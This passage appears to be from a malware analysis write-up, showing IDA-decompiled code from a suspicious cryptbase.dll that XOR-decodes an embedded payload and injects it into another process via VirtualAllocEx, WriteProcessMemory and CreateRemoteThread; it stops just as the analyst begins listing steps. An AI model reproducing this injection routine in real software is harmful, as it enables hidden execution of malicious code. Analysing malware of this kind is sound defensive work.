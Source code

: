 ```c
                v9 = v7++ & 0xF;
                *((_BYTE *)v8 - 1) ^= aX7qp9zlma2vtej[v9];
              }
              while ( v7 < v2 );
              ResourceW = (HRSRC)VirtualAllocEx(ProcessInformation.hProcess, 0LL, v2, 0x3000u, 0x40u);
              v10 = (DWORD (__stdcall *)(LPVOID))ResourceW;
              if ( ResourceW )
              {
                NumberOfBytesWritten = 0LL;
                LODWORD(ResourceW) = WriteProcessMemory(
                                       ProcessInformation.hProcess,
                                       ResourceW,
                                       v6,
                                       v5,
                                       &NumberOfBytesWritten);
                if ( (_DWORD)ResourceW )
                {
                  ResourceW = (HRSRC)CreateRemoteThread(ProcessInformation.hProcess, 0LL, 0LL, v10, 0LL, 0, 0LL);
                  v11 = ResourceW;
                  if ( ResourceW )
                  {
                    ExitCode = 0;
                    GetExitCodeThread(ResourceW, &ExitCode);
                    CloseHandle(v11);
                    CloseHandle(ProcessInformation.hThread);
                    CloseHandle(ProcessInformation.hProcess);
                    LODWORD(ResourceW) = VirtualFree(v6, 0LL, 0x8000u);
                  }
                }
              }
            }
          }
        }
      }
    }
  }
  return (int)ResourceW;
}


```

---



Upon analyzing the dumped `cryptbase.dll` in IDA, we found a suspicious function (`sub_7FFED6511000`) that performs **classic process injection** using a shellcode payload embedded in the DLL's resources.

Here are the key steps:
